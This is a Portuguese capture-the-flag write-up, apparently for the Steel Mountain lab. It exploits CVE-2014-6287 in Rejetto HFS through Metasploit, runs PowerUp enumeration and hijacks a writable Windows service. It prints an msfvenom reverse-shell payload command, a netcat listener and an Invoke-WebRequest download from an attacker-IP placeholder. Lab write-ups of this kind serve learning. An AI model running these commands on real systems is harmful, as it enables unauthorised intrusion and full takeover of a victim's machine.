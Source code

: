 Encontramos uma vulnerabilidade conhecida no Rejetto HTTP File Server. Para explora-la usamos o metasploit:
1. ``msfconsole``
2. ``search cve:2014-6287``
3. ``use 0``
4. setamos o RHOSTS, o RPORT e o LHOST
5. ``exploit``
6. ``search -f user.txt``
7. ``cat user.txt``


## Escalação de privilégio em ambiente windows

upload desse script na máquina alvo: [raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

partimos para uma powershell a partir do meterpreter usando:
1. ``load powershell``
2. ``powershell_shell``

Executamos o script enumerador:
1. ``PS > .\PowerUp.ps1``
2. ``PS > Invoke-AllChecks``

Encontramos isso dentre as coisas enumeradas:
```
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

A opção **CanRestart** estando como **true** permite que reiniciemos um serviço no sistema. Além disso, o diretório da aplicação também tem permissão de escrita. Isso significa que podemos substituir a aplicação legítima pela nossa versão maliciosa, reiniciar o serviço e, assim, executar nosso programa infectado

Usando o msfvenom podemos gerar um payload de reverse shell para windows
``msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe``

navegamos ate a pasta que contém o ASCService.exe. Ao tentar dar upload na nossa versão o meterpreter diz que o arquivo está sendo usado por outro processo.

Para parar o serviço podemos usar ``sc stop ASCService.exe`` dentro do powershell. Depois voltamos para o meterpreter com ``Ctrl + Z`` e fazemos upload do arquivo.

primeiro temos que parar o serviço que está rodando para conseguirmos substituir o arquivo, para isso usamos:
``net stop AdvancedSystemCareService9``

substituímosmos o arquivo
``copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"``

não podemos esquecer de colocar um listenner para nossa reverse_shell
``nc -nlvp 4443``

depois é só reiniciar o serviço com:
``net start AdvancedSystemCareService9``

Pelo acesso de root basta navegar ate o desktop do usuário administrador. Lembrando que para listar pastas no cmd usamos ``dir`` e o equivalente ao ``cat`` é ``type``


## Fazendo sem o metasploit
A fase de entrar no sistema é bem simples. Mantenha um netcat listener na porta que você colocou no arquivo do exploit.
para fazer o upload do arquivo usamos ``powershell -c "Invoke-WebRequest -OutFile <nome do arquivo na saida> http://<attacker ip>/<arquivo para subir>"``




